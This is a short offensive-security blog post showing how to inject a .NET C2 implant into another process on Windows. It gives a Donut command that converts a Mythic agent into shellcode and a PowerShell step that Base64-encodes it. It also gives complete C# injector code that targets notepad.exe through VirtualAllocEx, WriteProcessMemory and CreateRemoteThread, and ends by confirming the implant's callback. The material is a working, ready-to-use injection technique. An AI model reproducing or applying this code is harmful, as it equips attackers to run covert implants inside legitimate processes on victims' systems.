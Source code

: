 This is a quick post to show how you can inject your .NET assembly code to unmanaged processes.

### Generate the ShellCode

As an example, I will be using a Mythic implant. But feel free to develop your own payload.

For this task we will use the Donut project, you can read more about it [here.](https://github.com/TheWover/donut)

The syntax is very simple, we need to indicate our payload (-f), the Class preceded by the Namespace (c) and the method to be executed (m). You can specify the system architecture (-a), with 1 for x86 and 2 for amd64:

```powershell
.\donut.exe -f .\atlas_callback.exe -c Atlas.Program -m Main -a 2
```
![](/images/2021-02-10-10-20-35.png)

If all goes well, the file "payload.bin" will be created in the local folder of the project.

![](/images/2021-02-10-10-23-41.png)

This file can already be used in the injection process, but let's do it differently. We will convert the file to Base64 and place it within our code, so we don't need to reference a file inside our final code.

```powershell
[Convert]::ToBase64String([IO.file]::ReadAllBytes((get-location).path + "\payload.bin")) | out-file payload.b64
```
![](/images/2021-02-10-10-29-18.png)
### Process Injection

The code below is a basic implementation of process injection, using _VirtualAllocEx_, _WriteProcessMemory_ and _CreateRemoteThread_. I added a few lines to receive our payload in the necessary format and that's it.

Replace your Base64 payload in the code below and remember to start the chosen process as a target.

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Runtime.InteropServices;
using System.IO;
using System.Diagnostics;

namespace Injection {
    class Program {
    
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        public static void Main(string[] args) {

            string s = @"<B64PAYLOAD>";
            byte[] buf = Convert.FromBase64String(s);
            
            Process[] npProc = Process.GetProcessesByName("notepad");
            int pid = npProc[0].Id;
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, (uint)buf.Length, 0x00002000 | 0x00001000, 0x40);
            IntPtr outSize;
            WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

        }
    }
}
```
### Conclusion

That's it! Your code will be executed within the target process.

In my case, I can confirm by looking at the callback in Mythic and crossing with the PID of the target process (notepad.exe):

![](/images/2021-02-10-10-45-49.png)
![](/images/2021-02-10-10-42-09.png)

Happy Hacking!
